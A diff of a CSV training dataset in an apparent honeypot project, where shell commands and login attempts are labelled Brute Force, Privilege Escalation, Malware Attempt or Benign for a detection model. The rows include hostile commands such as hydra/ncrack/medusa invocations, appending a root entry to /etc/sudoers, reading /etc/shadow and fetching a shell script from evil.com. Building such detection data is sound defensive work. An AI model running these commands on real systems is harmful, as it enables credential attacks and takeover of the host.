

Before and after one commit to AmulyaSri-Code/Honeypotv2.03, a CSV file: ml/dataset.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/ml/dataset.csv
+++ b/ml/dataset.csv
@@ -52,4 +59,9 @@ auth:root:password,Brute Force
 auth:ubuntu:ubuntu,Brute Force
+auth:guest:guest,Brute Force
 POST /login,Brute Force
 POST /api/login,Brute Force
+POST /auth,Brute Force
+hydra -l user -P pass.txt,Brute Force
+ncrack -u admin -P pass,Brute Force
+medusa -u root -p root,Brute Force
 sudo su,Privilege Escalation
@@ -70,2 +82,6 @@ sudo cat /etc/shadow,Privilege Escalation
 sudo /bin/bash,Privilege Escalation
+pkexec --version,Privilege Escalation
+sudo -l,Privilege Escalation
+find / -perm -4000 -type f,Privilege Escalation
+echo "root ALL=(ALL) ALL" >> /etc/sudoers,Privilege Escalation
 wget http://evil.com/shell.sh,Malware Attempt
@@ -101 +127,4 @@ dir,Benign
 list,Benign
+echo "hello world",Benign
+date,Benign
+cal,Benign
```
Also changed, not shown: 17 added rows elsewhere in this file, 6 other files.
